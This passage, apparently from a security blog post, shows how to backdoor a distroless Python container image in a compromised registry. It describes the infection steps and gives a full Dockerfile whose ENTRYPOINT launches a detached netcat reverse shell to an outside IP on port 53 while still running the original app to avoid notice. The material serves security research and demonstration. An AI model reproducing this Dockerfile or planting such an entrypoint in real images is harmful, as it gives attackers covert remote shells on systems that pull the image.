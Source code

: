 As a small PoC, let’s assume that that the registry we have compromised hosts a distroless image for a simple python application printing a certain content periodically. The infection steps starting with finding the ENTRYPOINT and CMD command combination used by the original image and ending with building the Dockerfile creating the infected image are as follows:

[![Infecting a distroless image with a reverse netcat shell](/assets/images/blog/2023-05-23-infecting-container-images/15_screenshot_infecting_distroless_image_with_netcat.png)](/assets/images/blog/2023-05-23-infecting-container-images/15_screenshot_infecting_distroless_image_with_netcat.png)

Note that in this case we are using the inspect option of the Docker utility to find the ENTRYPOINT and CMD command combination used by the original image. The final Dockerfile used to infect the distroless Python image is therefore as follows: 

```shell
FROM trs1/distroless-python-app:1.0
ADD alpine-minirootfs-3.14.2-x86_64.tar.gz /
ENTRYPOINT /usr/bin/screen -d -m /usr/bin/nc 1.2.3.4 53 -e /usr/bin/sh && /usr/bin/python3.9 print.py "This is a PoC"
```
